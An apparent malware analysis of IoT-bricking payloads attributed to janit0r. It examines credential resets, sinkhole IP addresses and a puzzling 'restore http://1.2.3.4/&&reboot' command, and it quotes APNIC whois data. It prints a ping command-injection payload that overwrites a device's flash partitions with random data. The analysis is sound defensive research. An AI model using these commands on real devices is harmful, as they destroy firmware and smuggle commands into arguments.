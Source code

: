 Some of the payloads also contain commands to reset the device's username and password. In those cases, the username is set to "skitle" and the password is set to eight random of lower and upper case letters, and numbers, where each number is three times more likely than each letter.

Some of the payloads also include references to IP addresses, either as local host-like IPs to which traffic can be sinked (127.0.0.1-2) and private IPs (10.1.2.3-4, 192.168.99.1, 192.0.0.64). Presumably these addresses are used to cause traps and timeouts.

The code also references IP addresses 1.2.3.4-6. Like the others, they are used to point to DNS servers, route traffic to, assign IP addresses, etc. Perhaps these are also meant to just sink traffic. However, there is one command containing:

```
restore http://1.2.3.4/&&reboot
```

The malware is trying to receive a file system backup image from 1.2.3.4.

Historically, 1.2.3.0/24 was allocated for private use but in January of 2010 was [allocated to APNIC](http://packetlife.net/blog/2010/feb/5/ripe-plays-with-1-0-0-0-network-apnic-allocation/), the Internet registry for the Asia-Pacific region. Since then, APNIC has been de-bogonizing the 1.0.0.0/8 network: that is, reducing the existing traffic destined for what should have been private and illegal addresses. In the December 2017 post, janit0r notes they focused on APNIC for part of the project.

This particular command stands out because it is actively seeking out 1.2.3.4 and expecting to interact with it (i.e., get a backup image to copy). It seems to be the only command to restore a device from a remote source, whereas most commands simply restore factory settings. For janit0r's part, this particular command (for an OEM name of "genu") may have been copied from another source, though I can't find any. But the question remains.

Perhaps the malware tries to distribute some system image for this device among nearby networks. Other commands set device IPs to these private addresses and could have made connections. It's not clear if a C&C server could have been set up with that address though, as presumably routers would refuse to send traffic there or at least beyond the local, private network. Or it may have been a mistake or placeholder IP address that remains, although it would have been pre-2010, almost a decade ago. Or it could be a way to inject the `reboot` command by passing it in with `restore` to an unreachable address. The commands prior to restore are `backup` and `revertfac`, at which point a reboot was in order. However, the other command listed for this family of devices ("genu01" through "genu09") show "reboot" being called on its own.

(For an example of code injection among the kill commands:
```bash
ping `cat /dev/urandom >/dev/mtdblock0;cat /dev/urandom >/dev/mtdblock1; cat /dev/urandom >/dev/mtdblock2 &`
```
)

In any case, 1.2.3.0/24 is currently listed as belonging to APNIC and still being used for their debogonizing project.

```bash
Quick Stats
IP Location 	Australia Australia Brisbane Apnic Pty Ltd
Whois Server 	whois.apnic.net
IP Address 	1.2.3.4
Reverse IP 	1,766 websites use this address.
inetnum:        1.2.3.0 - 1.2.3.255
netname:        Debogon-prefix
descr:          APNIC Debogon Project
descr:          APNIC Pty Ltd
country:        AU
admin-c:        AR302-AP
tech-c:         AR302-AP
mnt-by:         APNIC-HM
mnt-routes:     MAINT-AU-APNIC-GM85-AP
mnt-irt:        IRT-APNICRANDNET-AU
status:         ASSIGNED PORTABLE
last-modified:  2011-09-22T03:42:30Z
```